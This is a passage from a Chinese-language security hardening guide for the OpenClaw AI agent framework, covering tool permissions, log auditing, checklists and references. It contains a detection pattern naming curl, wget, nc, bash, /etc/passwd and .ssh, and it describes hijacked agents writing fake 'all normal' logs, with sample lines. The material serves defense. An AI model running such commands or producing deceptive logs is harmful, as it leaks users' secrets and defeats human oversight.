* 符号链接指向工作区外路径
* 能够读取 `/etc/passwd`、`~/.ssh/` 等敏感文件
* 能够在工作区外创建/修改文件

4. ### 权限最小化原则

 **根据使用场景选择权限** ：

| 使用场景 | 建议权限配置 |
| --- | --- |
| **仅消息回复**                                                     | `tools.profile: "messaging"`，禁用所有工具 |
| **文档整理**                                                       | 仅开放文件读写，禁用命令执行和网络访问       |
| **自动化测试**                                                     | 开放命令执行 + 定时任务，但需人工确认        |
| **数据分析**                                                       | 开放文件读写 + 网络访问，禁用命令执行        |

 **配置示例** ：

```JSON
// ~/.openclaw/openclaw.json
{
  "tools": {
    "profile": "messaging",
    "fs": { "workspaceOnly": true },
    "exec": { "security": "deny" },  // 或 "ask" 需确认
    "deny": ["gateway", "cron"]      // 禁用高危工具
  }
}
```

## 附录 B：深度日志审计

如果说权限控制是  **预防问题** ，那么日志就是  **事后还原真相的唯一线索** 。

当怀疑 Agent 行为异常时，日志往往是判断系统是否被劫持、数据是否被外泄的关键依据。

但需要注意一点：**不要完全相信 AI 自己生成的日志摘要。**

在某些攻击场景中，攻击者甚至可能诱导 AI 输出 **“一切正常”** 的虚假信息。因此，日志审计必须结合：

* 原始日志记录
* 独立日志系统（ELK / Splunk）
* 系统级安全工具（EDR）

下面是几个在实际排查中必须重点关注的日志类型。

1. ### 重点监控内容

* **为什么需要这样做** ：及时发现异常行为，防止损失扩大。
* **目标** ：监控关键日志类型，识别危险信号。
* **必须过滤并监控的日志类型** ：
* **Tool Call（工具调用）日志**
* 记录每次工具调用的名称、参数、结果
* 特别关注：`fs.write`、`fs.delete`、`exec`、`browser.navigate`
* **Network Request（网络请求）日志**
* 记录所有出站网络连接
* 特别关注：访问未知 IP、非常用域名、加密隧道
* **文件访问日志**
* 记录所有文件读写操作
* 特别关注：访问敏感目录、批量读取、外发文件

2. ### 危险关键词告警

* **为什么需要这样做** ：快速识别潜在的恶意操作。
* **目标** ：在日志中搜索危险命令关键词。
* **操作步骤** ：
  **macOS/Linux**：

```Bash
  # 在日志中搜索以下关键词
  grep -E "rm |curl |wget |nc |bash |sh -c|/etc/passwd|\.ssh/" logs/*.log

  # 一旦发现 rm、curl http://未知 IP、del 等字眼，立刻阻断并调查
```

  **Windows**：

```Plain
  :: 在日志中搜索以下关键词
  findstr /R "rm  curl  wget  nc  bash  sh -c  /etc/passwd  .ssh " logs\*.log

  :: 或使用 PowerShell
  powershell -Command "Select-String -Path 'logs\*.log' -Pattern 'rm |curl |wget |nc |bash'"
```

 **确认** ：发现可疑命令立即调查。

3. ### 警惕日志欺骗

* **为什么需要这样做** ：AI 可能会被黑客指令诱导，在日志中输出虚假信息。
* **目标** ：识别并防范日志伪造。
* **AI 可能输出的虚假日志** ：

```Plain
  [INFO] 一切正常，未执行任何敏感操作
  [INFO] 文件完整性校验通过
  [INFO] 网络连接均为合法请求
```

* **应对措施** ：
* 不信任 AI 自己生成的日志摘要
* 使用独立的日志收集系统（如 ELK、Splunk）
* 结合系统底层安全软件（EDR）进行进程树比对
* 启用日志完整性保护（如数字签名）

4. ### 防范日志投毒

* **为什么需要这样做** ：攻击者可能在日志中注入 ANSI 转义字符，导致终端被操控。
* **目标** ：使用安全的方式查看日志内容。
* **严禁直接用终端 ****`cat`**** 或 ****`tail`**** 查看包含网页内容的原始日志！**
* 攻击者可能在日志中注入 ANSI 转义字符，导致：
  * 终端显示被篡改
  * 执行恶意命令
  * 窃取终端会话

5. ### **安全查看方式**

* **为什么需要这样做** ：防止日志中的恶意字符影响终端。
* **目标** ：使用安全的方式查看日志内容。
* **操作步骤** ：
  **macOS/Linux**：

```Bash
  # 使用 cat -v 显示控制字符
  cat -v logs/openclaw.log

  # 或使用专门的日志查看工具
  less -R logs/openclaw.log

  # 最佳：使用日志管理系统查看
```

  **Windows**：

```Plain
  :: 使用 type 命令查看（相对安全）
  type logs\openclaw.log

  :: 或使用 PowerShell（推荐）
  powershell -Command "Get-Content logs\openclaw.log -Head 100"

  :: 使用 more 命令分页查看
  more logs\openclaw.log
```

* **确认** ：日志内容正常显示，无异常字符。
* **日志文件位置**
* **配置文件位置** ：
* **macOS/Linux**：`~/.openclaw/logs/`
* **Windows**：`%USERPROFILE%\.openclaw\logs\` 或 `C:\Users\你的用户名\.openclaw\logs\`

---

## 附录 C：运维人员快速检查清单

### 每日检查

* 检查日志是否有异常 Tool Call
* 检查 API 使用量是否异常
* 确认 Gateway 进程正常运行

### 每周检查

* Gateway 仅绑定 127.0.0.1
* 已启用 token 认证（≥32 位）
* 配置文件权限 600，目录 700
* 启用了沙箱模式
* 禁用了不必要的工具
* 仅保留可信插件
* 使用最新版本（≥v2026.2.26）

### 每月检查

* 审查所有 Skills 是否仍需要
* 轮换 API Key 和 Token
* 备份配置和记忆文件
* 检查系统是否有异常进程

---

## 附录 D：术语表

| 术语        | 解释                                         |
| ----------- | -------------------------------------------- |
| OpenClaw    | 开源 AI 智能体框架，曾用名 Clawdbot、Moltbot |
| Gateway     | OpenClaw 的本地服务，负责与 AI 模型通信      |
| Skills      | OpenClaw 的插件系统，扩展 AI 能力            |
| ClawHub     | OpenClaw 官方技能市场                        |
| 提示词注入  | 通过在输入中嵌入指令来操控 AI 行为           |
| RCE         | Remote Code Execution，远程代码执行          |
| Outbox 模式 | 外发内容先暂存、审核后发送的模式             |

---

## 附录 E：参考资料

### 官方文档

* [OpenClaw 官方文档](https://docs.openclaw.ai)
* [OpenClaw GitHub 仓库](https://github.com/openclaw/openclaw)

### 安全研究报告

* Bitdefender. (2026). "135K OpenClaw AI Agents Exposed to Internet"
* The Register. (2026). "OpenClaw instances open to the internet present ripe targets"
* Kaspersky. (2026). "Moltbot Enterprise Risk Management"
* arXiv. (2026). "A Security Analysis and Defense Framework for OpenClaw"

### 社区资源

* [OpenClaw 官方安全社区](https://discord.com/invite/clawd)
* [社区安全实践指南](https://clawhub.com/security)

## 写在最后

AI Agent 的能力正在快速增长。

当工具拥有越来越多系统权限时，安全边界也变得同样重要。

OpenClaw 本身并不是问题，问题在于我们如何使用它。

管得好，它是一只高效的生产工具；

管不好，就先关龙虾。
